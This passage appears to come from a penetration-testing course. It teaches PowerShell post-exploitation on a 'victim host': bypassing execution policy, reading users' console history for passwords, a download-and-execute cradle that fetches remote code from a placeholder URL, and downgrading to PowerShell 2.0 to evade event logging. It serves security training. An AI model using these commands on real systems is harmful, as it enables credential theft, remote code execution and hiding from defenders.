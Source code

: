 Let's look at a few of the ways PowerShell can help us.

Harnessing PowerShell
PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.
```powershell


Cmd-Let	Description

Get-Module	Lists available modules loaded for use.


Get-ExecutionPolicy -List	  Will print the execution policy settings for each scope on a host.


Set-ExecutionPolicy Bypass -Scope Process	    This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.


Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt	                 With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.

Get-ChildItem Env: | ft Key,Value	                              Return environment values such as key paths, users, computer information, etc.

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"


We have performed basic enumeration of the host. Now, let's discuss a few operational security tactics.

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. Below is an example of downgrading Powershell.

Downgrade Powershell
  Downgrade Powershell
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2


```